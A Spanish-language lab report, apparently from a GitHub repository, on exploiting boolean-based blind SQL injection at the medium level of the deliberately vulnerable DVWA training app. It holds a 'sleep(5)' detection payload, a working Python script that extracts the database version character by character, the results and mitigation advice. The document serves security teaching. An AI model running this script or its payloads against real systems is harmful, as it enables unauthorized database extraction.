

# Reporte de Explotación: SQL Injection - Blind (Nivel: Medium) - DVWA

Este documento detalla la explotación de una vulnerabilidad de **Inyección SQL Ciega (Boolean-based)** mediante la automatización con un script de Python para extraer información de la base de datos.

---

## 🔍 Análisis de la Vulnerabilidad

En el nivel **Medio**, la aplicación no muestra errores de SQL ni resultados directos en pantalla, y utiliza peticiones **POST**. Sin embargo, es vulnerable a ataques de inferencia (ciegos).

* **Detección**: Se confirmó la vulnerabilidad utilizando el payload `1 and sleep(5)`. El servidor tardó exactamente 5 segundos en responder, confirmando que la entrada se ejecuta en la base de datos.
* **Mecanismo de Explotación**: Dado que el servidor responde con un mensaje diferente si la consulta es verdadera ("User ID exists in the database") o falsa, se puede realizar un ataque de fuerza bruta carácter por carácter para extraer datos como la versión del software.

---

## 🚀 Proceso de Explotación

### 1. Automatización con Python
Se desarrolló un script para automatizar el proceso de adivinación. El script primero identifica la longitud de la cadena de texto y luego itera sobre los valores ASCII para reconstruir la información.

**Código del exploit (`sql.py`):**

```python
import requests
from requests.structures import CaseInsensitiveDict

# Configuración de cabeceras y sesión
headers = CaseInsensitiveDict()
headers["Cookie"] = "security=medium; PHPSESSID=a967a138f573261c0dae850c8f944b49"
headers["Content-Type"] = "application/x-www-form-urlencoded"
url = 'http://localhost/DVWA/vulnerabilities/sqli_blind/'

# 1. Identificar la longitud de la versión
for i in range(100):
    parameters = f"id=1+and+length(version())={i}&Submit=Submit"
    r = requests.post(url, headers=headers, data=parameters)
    if 'User ID exists in the database' in r.text:
        print(f'length = {i}')
        length = i
        break

# 2. Extraer la versión carácter por carácter
for i in range(1, length + 1):
    for s in range(30, 126):
        # Se utiliza substring y ascii para comparar cada posición
        parameters = f"id=1+and+ascii(substring(version(),{i},1))={s}&Submit=Submit"
        r = requests.post(url, headers=headers, data=parameters)
        if 'User ID exists in the database' in r.text:
            print(chr(s), end='', flush=True)
            break
```
### 2. Resultados obtenidos

Al ejecutar el script en el entorno de ataque (Kali Linux), se logró automatizar la respuesta del servidor basada en contenidos booleanos ("User ID exists in the database") para extraer la versión exacta del motor de base de datos.


**Resultado de la extracción:**



---

**Datos extraídos en la captura:**

* **Longitud detectada:** 31 caracteres.
* **Versión del Sistema:** `11.8.3-MariaDB-1+b1 from Debian`.
* **Entorno de ejecución:** Kali Linux (`kali@kali`).

---

## 🛡️ Medidas de Mitigación

Para prevenir ataques de SQL Injection Blind, se deben aplicar controles estrictos en el manejo de datos:

* **Consultas Parametrizadas:** El uso de sentencias preparadas es la defensa principal, ya que evita que los operadores lógicos (`AND`, `OR`) inyectados alteren la consulta original.
* **Validación de Entradas:** Implementar filtros que rechacen caracteres o palabras clave utilizadas en ataques ciegos (como `ASCII`, `SUBSTRING`, `SLEEP`).
* **Supresión de Mensajes de Error:** Aunque este ataque se basa en respuestas booleanas, minimizar la información devuelta por el servidor dificulta la fase de reconocimiento.
* **WAF (Web Application Firewall):** Configurar reglas que detecten patrones de fuerza bruta en parámetros específicos en periodos cortos de tiempo.

---

> [!CAUTION]
> **Aviso de Seguridad:** Este reporte tiene fines exclusivamente educativos. El acceso no autorizado a sistemas informáticos es una actividad ilegal y penada por la ley.
